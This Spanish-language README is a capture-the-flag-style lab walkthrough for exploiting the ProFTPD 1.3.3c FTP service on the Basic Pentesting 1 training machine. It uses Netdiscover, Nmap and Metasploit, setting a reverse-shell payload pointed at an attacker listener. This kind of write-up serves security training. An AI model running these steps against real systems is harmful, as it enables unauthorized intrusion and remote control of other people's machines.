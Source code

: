 
# 🚀 FTP Exploitation - Basic Pentesting 1 

## 📚 Descripción
En esta documentación se detalla el proceso de explotación de la máquina BasicPentesting1, un sistema Linux con un servicio **FTP (ProFTPD 1.3.3c)** activo. A través de diferentes herramientas de pentesting, se identifican posibles vulnerabilidades y se utiliza **Metasploit** para su explotación.

El procedimiento incluye:

- **Identificación de la IP** de la máquina objetivo con **Netdiscover**.
- **Escaneo de puertos y detección de servicios** con **Nmap**.
- **Búsqueda de exploits** disponibles en **Metasploit**.
- **Configuración del exploit y payload** para obtener acceso al sistema.
- **Ejecución del exploit** y validación del acceso obtenido.

## ⛔ Advertencia
Este repositorio y su contenido han sido creados **exclusivamente con fines educativos, académicos y de investigación en ciberseguridad.**

❌ **Prohibido el uso malintencionado:** El uso de este código para atacar sistemas sin la autorización explícita de sus propietarios **está estrictamente prohibido** y puede violar leyes locales, nacionales e internacionales.

✅ **Entornos controlados:** Se recomienda ejecutar este exploit **únicamente en entornos de pruebas controlados y sistemas que poseas o cuentes con permiso explícito para auditar.**

⚖️ **Responsabilidad:** El autor de este repositorio **no se hace responsable** de cualquier daño, pérdida o acción legal derivada del uso inapropiado de este código.

**Al utilizar este repositorio, aceptas y comprendes estas condiciones.** Si no estás de acuerdo, por favor, no clones ni utilices este código.

**La ciberseguridad es una responsabilidad compartida. Úsalo con ética y respeto. 🚀**

## 🔨 Requisitos
Antes de comenzar, asegúrate de tener lo siguiente:
- **Máquina objetivo:** Basic Pentesting 1 (Linux)
- **Máquina atacante:** Kali Linux 
- **Herramientas necesarias:** Netdiscover, Nmap, Metasploit 

## 🎯 Uso
Identificar la IP de la máquina 
- Ejecuta Netdiscover para encontrar la dirección IP de la máquina objetivo.
- Asegúrate de que la máquina Basic Pentesting 1 y tu Kali Linux estén en la misma red Red NAT.

```
IP: 192.168.10.11
```
<p align="center">
  <img src="https://raw.githubusercontent.com/ElChe1/Explotation-Lab/main/FTP%20Exploitation-BasicPentesting1/media/img/netdiscover.png" alt="netdiscover" style="border-radius: 10px;">
</p>

<br>

Para identificar la versión del servicio FTP y el puerto en el que está escuchando, ejecuta Nmap sobre la máquina BasicPentesting1.
```
sudo nmap -sV 192.168.10.11
```
<p align="center">
  <img src="https://raw.githubusercontent.com/ElChe1/Explotation-Lab/main/FTP%20Exploitation-BasicPentesting1/media/img/nmap.png" alt="nmap" style="border-radius: 10px;">
</p>

<br>

Para comprobar si la versión de ProFTPD 1.3.3c es explotable, ejecuta Metasploit y realiza una búsqueda de exploits disponibles.
```
msf6 > search ProFTPD 1.3.3c
```
<p align="center">
  <img src="https://raw.githubusercontent.com/ElChe1/Explotation-Lab/main/FTP%20Exploitation-BasicPentesting1/media/img/search.png" alt="search" style="border-radius: 10px;">
</p>

<br>

Una vez identificado un exploit para **ProFTPD 1.3.3c**, sigue estos pasos para configurarlo y buscar payloads compatibles.
Si el comando search ProFTPD 1.3.3c muestra un exploit válido.
```
msf6 > use 0
```
<p align="center">
  <img src="https://raw.githubusercontent.com/ElChe1/Explotation-Lab/main/FTP%20Exploitation-BasicPentesting1/media/img/use.png" alt="use" style="border-radius: 10px;">
</p>

<br>

Después de seleccionar el exploit, verifica las opciones necesarias.
```
msf6 > show options
```
<p align="center">
  <img src="https://raw.githubusercontent.com/ElChe1/Explotation-Lab/main/FTP%20Exploitation-BasicPentesting1/media/img/show_options.png" alt="show_options" style="border-radius: 10px;">
</p>

<br>


Para ver los payloads compatibles con el exploit.
```
msf6 > show payloads
```
<p align="center">
  <img src="https://raw.githubusercontent.com/ElChe1/Explotation-Lab/main/FTP%20Exploitation-BasicPentesting1/media/img/show_payload.png" alt="show_payload" style="border-radius: 10px;">
</p>

<br>

Selecciona el payload adecuado para conseguir una conexión inversa.
```
msf6 > set payload payload/cmd/unix/reverse
```
<p align="center">
  <img src="https://raw.githubusercontent.com/ElChe1/Explotation-Lab/main/FTP%20Exploitation-BasicPentesting1/media/img/payload.png" alt="payload" style="border-radius: 10px;">
</p>

<br>

Una vez seleccionado el exploit y el payload adecuado, configura las opciones necesarias.
Ejecuta los siguientes comandos dentro de Metasploit.
```
msf6 > set rhosts 192.168.10.11
msf6 > set rport 21
msf6 > set lhost 192.168.10.4
msf6 > set lport 2222
```
<p align="center">
  <img src="https://raw.githubusercontent.com/ElChe1/Explotation-Lab/main/FTP%20Exploitation-BasicPentesting1/media/img/configuracion.png" alt="configuracion" style="border-radius: 10px;">
</p>

<br>


Una vez configuradas las opciones, lanza el exploit.
```
msf6 > run
```
<p align="center">
  <img src="https://raw.githubusercontent.com/ElChe1/Explotation-Lab/main/FTP%20Exploitation-BasicPentesting1/media/img/run.png" alt="run" style="border-radius: 10px;">
</p>

<br>

A través del uso de herramientas como Netdiscover, Nmap y Metasploit, hemos logrado obtener acceso al sistema objetivo mediante una conexión inversa.
